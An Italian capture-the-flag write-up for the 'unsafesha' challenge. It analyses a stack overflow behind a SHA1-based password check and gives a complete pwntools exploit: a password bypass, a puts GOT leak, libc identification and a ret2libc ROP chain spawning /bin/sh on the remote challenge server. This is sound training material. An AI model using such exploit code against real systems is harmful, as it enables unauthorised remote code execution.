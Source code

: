 ```c
checksec --file=./unsafesha
[*] '/home/francesco/Downloads/unsafesha'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    Stripped:   No

```

Analisi del binario

```c
builtin_strncpy(buffer,"not so easy, uh?",16);  // buffer[0:16] = costante
ccread(stdin, 336, buffer + 16);               // input dell'utente a partire da buffer+16
```

Il nostro input finisce in buffer[16:16+336] → **oltre i 96 byte allocati → overflow**

Segue

```c
SHA1_Update(&ctx, buffer+16, len_input);
SHA1_Final(buffer_byte, &ctx);
```

Viene calcolato SHA1(input) → primi 4 byte sono reinterpretati come uint32, XORati con 0xc398d997, poi si verifica:

```c
if (buffer_byte[0] != 0 && strncmp(buffer, buffer_byte, strlen(buffer_byte)) == 0)
    puts("Logged in!");
```

Se riusciamo a trovare un input tale che:

- SHA1(input)[0:4] ^ 0xc398d997 = buffer[0:4]
- allora entriamo in Logged in!

Il programma fa anche puts("Password: ");, poi chiama ccread() con 336 byte → overflow totale di 336 - (96 - 16) = **256 byte oltre la fine del buffer**.

Niente canary, niente PIE → possiamo sovrascrivere il return address.

L’obiettivo è:

1. Fare leak di un indirizzo da GOT (es. puts@got)
2. Calcolare la base della libc remota
3. ROP chain per eseguire system("/bin/sh")

Per far funzionare il nostro attacco dobbiamo bypassare il controllo password. Con un semplice algoritmo che genera password valide troviamo una password adatta: 

```c
password = b"0hwajb2Q\x00"
```

Il byte nullo alla fine ci servirà in seguito.

### Exploit

Costruiamo una ROP chain con:

```c
pl = password + b"A" * (OFFSET - len(password))
pl += p32(elf.plt['puts'])       # chiamata a puts
pl += p32(elf.symbols['main'])   # ritorna al main per retry
pl += p32(elf.got['puts'])       # argomento per puts
```

Riceviamo 4 byte → leak di puts.

Grazie a LibcSearcher, usiamo l’offset di puts per determinare la versione esatta di libc usata **in remoto**.

Costruiamo la ROP finale:

```c
pl = password + b"A" * (OFFSET - len(password))
pl += p32(system)
pl += p32(exit)
pl += p32(binsh)
```

Codice completo

```c
#!/usr/bin/env python3
from pwn import *
from hashlib import sha1
import itertools, string
import hashlib
from LibcSearcher import LibcSearcher

elf  = ELF('./unsafesha')

OFFSET = 100

# --------------------------------------------------
def leak_payload():
	password = b"0hwajb2Q\x00"
	pl = password + b"A" * (OFFSET - len(password))
	pl += p32(elf.plt['puts'])
	pl += p32(elf.symbols['main'])
	pl += p32(elf.got['puts'])
	return pl

def shell_payload(base, remote_libc):
	# Usiamo remote_libc.dump() per ottenere gli offset corretti per la libc remota
	system = base + remote_libc.dump('system')
	binsh  = base + remote_libc.dump('str_bin_sh') # LibcSearcher a volte usa 'str_bin_sh'
	exitfn = base + remote_libc.dump('exit')

	print(f"System: {system:#x}\nBin: {binsh:#x}\nExit: {exitfn:#x}")
	password = b"0hwajb2Q\x00"
	pl = password + b"A" * (OFFSET - len(password))

	pl += p32(system)
	pl += p32(exitfn)
	pl += p32(binsh)
	return pl
# --------------------------------------------------

io = remote('unsafesha.challs.cyberchallenge.it', 9262)
# io = process("./unsafesha")

io.sendlineafter(b'Password: ', leak_payload())

io.recvuntil(b"Logged in!\n")

leak = u32(io.recv(4))
log.success(f"puts leak: {leak:#x}")

log.info("Cercando la libc remota con LibcSearcher...")
libc = LibcSearcher("puts", leak)

libc_base = leak - libc.dump("puts")
log.success(f"libc base: {libc_base:#x}")

io.sendlineafter(b'Password: ', shell_payload(libc_base, libc))
io.interactive()
```